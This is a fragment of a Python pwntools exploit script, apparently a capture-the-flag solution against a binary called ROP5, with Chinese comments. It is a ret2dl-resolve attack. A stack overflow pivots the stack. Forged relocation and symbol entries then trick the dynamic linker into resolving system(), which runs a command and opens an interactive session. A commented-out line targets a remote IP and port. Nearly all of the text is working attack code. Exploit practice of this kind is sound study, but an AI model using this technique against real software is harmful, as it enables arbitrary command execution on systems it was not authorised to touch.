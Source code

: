 ```
    fake_ndx = u16(elf.read(versym+index_dynsym*2,2))                       #ndx定义时与0x7fff按位与运算，故ndx应该为两个字节
    if fake_ndx != 0:
        base_stage += 0x10
        #################################################
        index_offset = (base_stage + 28) - rel_plt
        fake_sym_addr = base_stage + 36
        fake_sym_addr = fake_sym_addr + align
        index_dynsym = (fake_sym_addr - dynsym) / 0x10
        #################################################
        continue
    else :
        break 


r = process('./ROP5')
#r  = remote("47.103.214.163", 20700)
#gdb.attach(r,'b *0x0804855B')


r.recvuntil('Are you the LEVEL5?\n')
payload = 'A' * offset
payload += p32(read_plt)                    # 读100个字节到base_stage
payload += p32(ppp_ret)
payload += p32(0)
payload += p32(base_stage)
payload += p32(100)
payload += p32(pop_ebp_ret)             
payload += p32(base_stage)
payload += p32(leave_ret)               		#进行栈迁移
payload += 'a'*152
r.send(payload)


r_info = (index_dynsym << 8) | 0x7          #readelf -r ROP5
fake_reloc = p32(puts_got) + p32(r_info) 

st_name = (fake_sym_addr + 0x10) - dynstr
fake_sym = p32(st_name) + p32(0) + p32(0) + p8(0x12) + p8(0) + p16(0)
                                        		#p8(0) 绕过判断(sym->st_other)&0x03是否为0
payload2 = 'AAAA'
payload2 += p32(plt_0)
payload2 += p32(index_offset)
payload2 += 'AAAA'
payload2 += p32(base_stage + 80) 
payload2 += 'aaaa'
payload2 += 'aaaa'
payload2 += fake_reloc                      # (base_stage+28)的位置
payload2 += 'B' * align
payload2 += fake_sym                       	# (base_stage+36)的位置
payload2 += "system\x00"
payload2 += 'C' * (80 - len(payload2))
payload2 += cmd + '\x00'
payload2 += 'A' * (100 - len(payload2))


r.sendline(payload2)

r.interactive()
```
